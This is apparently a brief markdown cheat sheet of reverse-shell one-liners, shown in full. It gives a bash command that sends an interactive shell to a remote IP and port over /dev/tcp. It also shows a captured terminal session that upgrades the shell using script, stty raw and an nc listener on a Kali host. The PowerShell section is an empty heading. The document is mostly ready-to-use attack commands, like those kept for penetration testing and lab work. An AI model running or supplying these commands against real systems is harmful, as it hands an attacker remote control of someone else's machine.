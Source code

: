 # Reverse Shells

## One-Liners

### Bash
Easy Bash
```
bash -c "bash -i >& /dev/tcp/<IP>/<port> 0>&1"
```
Shell Upgrade
```
root@target:/backend# script /dev/null -c bash
script /dev/null -c bash            
Script started, file is /dev/null
root@target:/backend# ^Z                 
[1]+  Stopped                 nc -lnvp 1337
chuxtr@kali$ stty raw -echo; fg
nc -lnvp 1337
            reset
reset: unknown terminal type unknown
Terminal type? screen
root@target:/backend#
```
## Scripts
### Powershell

